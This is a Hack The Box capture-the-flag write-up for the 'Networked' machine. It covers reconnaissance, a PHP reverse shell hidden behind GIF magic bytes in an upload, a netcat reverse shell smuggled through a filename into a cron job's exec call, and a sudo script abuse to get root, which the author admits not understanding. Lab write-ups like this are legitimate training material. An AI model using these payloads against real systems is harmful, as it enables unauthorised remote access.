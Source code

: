 ```yaml
---
title: 'Hack The Box &#8211; Networked'
date: '2019-11-02T23:18:00-04:00'
categories:
    - 'Hack The Box'
tags:
    - hackthebox
---
```


Networked was an easy but very interesting box that left me confused at the end. I have not figured out why the final exploit worked but I plan on setting up an environment to find the reason it worked and update this page.

## Content

- Information
- Reconnaissance
- Initial Access & Execution
- User Privilege Escalation
- Root Privilege Escalation
- Data Exfiltration

## Information

- IP: 10.10.10.146
- OS: Linux

## Reconnaissance 

I ran map against the target running Nmap against the target, **-sC** to run Nmap scripts, and **-sV** for get service’s version running on port.

```
 root@kali:~/htb/boxes/networked# nmap -sC -sV -oA nmap/nmap_scan 10.10.10.146
 Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-31 21:03 EDT
 Nmap scan report for 10.10.10.146
 Host is up (0.077s latency).
 Not shown: 997 filtered ports
 PORT    STATE  SERVICE VERSION
 22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
...
 80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
 ...
 443/tcp closed https
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 31.81 seconds
```

I discovered port 22 open running SSH. I attempted to connect and try password guessing but it wasn’t fruitful. Port 443 is closed, which is interesting since a web server is installed on the host. I assume the creator of the box doesn’t want us to poke on that service just yet. The last port 80 is running a website. It appears to be a custom photo album web application.

![](/assets/images/2019/11/image-1.png)

Nothing of interest in the main page, so I proceeded to run **gobuster** against the website. **/Upload** and **/backup** directories are found. My initial curiosity lead me to backups.

```
root@kali:~/htb/boxes/networked/nmap# gobuster dir -u 10.10.10.146 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster_medium.txt
...
 /uploads (Status: 301)
 /backup (Status: 301)
```

In the **/backup** directory, I found a **tar** file that contained the source code for the web application. Nothing of interest was found in **index.php**. However, **lib.php** and **upload.php** a vulnerability in how the images are validated before being uploaded.

![](/assets/images/2019/11/image-1.tiff)
![](/assets/images/2019/11/image.tiff)

The file **lib.php** is a required include in **upload.php**. **upload.php** performs the check before images are uploaded into the application based on the following criteria: file size &lt; 60kb, filename extension must be jpg, gif, and a few other, and lastly it checks for that the file contains the magic bytes of known image formats. **Upload.php** provides a custom upload interface.

![](/assets/images/2019/11/image-3.png) 

## Initial Access & Execution

Photos.php includes any file in **/uploads** that is not **index.php**. I created a custom payload containing the magic bytes of the gif file format and appended code for a reverse shell. I created a file named **payload.php.jpg** with the following contents.

```
GIF89a;
<?php exec('bash -i >& /dev/tcp/10.10.15.154/8880 0>&1'); ?> 
```

Then I proceeded to upload the payload using **upload.php** file upload tool. I launched a new terminal console, ran netcat on listening mode, and then I clicked “go!”.

![](/assets/images/2019/11/image-4.png)

Next, I proceed to **photos.php** to view the photo album and have the server execute my payload.

![](/assets/images/2019/11/image-5.png)

Now I have obtain initial access and have a shell as apache user.

```
root@kali:~/htb/boxes/networked# nc -lvp 8880
 ...
 bash-4.2$ whoami
 apache
```

## User Privilege Escalation

I proceed to run **LinEnum.sh**, a great Linux enumeration script but nothing interesting is found since I am running as a limited user, **apache**. Apache had access to **/home/guly** directory. In the directory, I found two files of interest: **crontab.guly**, which runs **check\_attack.php** every 15 minutes as a cron job and runs as user guly. **check\_attack.php**. looks for files that have been uploaded into **/uploads** and doesn’t meet the requirements and then attempts to remove them. However, there is a vulnerability allows command execution when processing a file for deletion at:

```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

**$value** is not sanitized, and it can be escaped to run custom commands. I use the vulnerability to create a new shell as the owner of the script, guly. To exploit the vulnerability, I create a new file in **/uploads** that contains a netcat command in the filename.

```
 bash-4.2$ touch ;nc -c bash 10.10.15.154 8881;                            │
 touch ;nc -c bash 10.10.15.154 8881; 
```

![](/assets/images/2019/11/image-6.png)

I have a new limited shell as user, which I immediately upgraded to a tty shell by creating yet another reverse shell.

```
bash -i >& /dev/tcp/10.10.15.154/8882 0>&1
```

I ran **LinEnum.sh**, a great Linux enumeration script, and discovered a file that could possibly lead to privilege escalation. The same results could have been gathered with basic enumeration techniques.

```
 [guly@networked ~]$ sudo -l
 sudo -l
...
 User guly may run the following commands on networked:
     (root) NOPASSWD: /usr/local/sbin/changename.sh
```

## Root Privilege Escalation

The file **changeme.sh** is used to replace a network interface script at **/etc/sysconfig/network-scripts/ifcfg-guly** and runs as root. The script file prompts the users for four inputs. I managed to fuzz the application into giving me a root shell. However, I am not entirely sure why I was able to escape the loop and get a root shell. I think the flaw is in **while \[\[ ! $x =~ $regexp \]\]**;. Because the variable **$x** is not quoted, I am able to escape the loop by passing **-e /bin/bash** as an input and get a root shell.

## Data Exfiltration

```
 [root@networked ~]# cat root.txt                                                
 cat root.txt                                                                                         
 
```

If you know why **-e /bin/bash** was able to escape the loop, please drop a comment below.